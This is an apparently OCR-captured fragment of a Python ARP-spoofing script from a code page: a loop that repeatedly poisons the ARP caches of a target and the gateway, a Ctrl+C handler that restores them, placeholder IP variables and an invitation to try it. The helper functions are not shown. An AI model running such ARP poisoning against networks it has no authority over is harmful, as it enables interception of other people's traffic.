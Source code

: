```python
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] Packet sent: " + str(sent_packets_count)),
        sys.stdout.flush()
        time.sleep(2)
except KeyboardInterrupt:
    print("[+] Detected CTRL+C ........Resetting ARP Table \n")
    restore(target_ip, gateway_ip)

```

> Set your own gateway ip and target ip : 
```python

target_ip= "target_ip"
gateway_ip = "gateway_ip"

```

Give a shot ! 
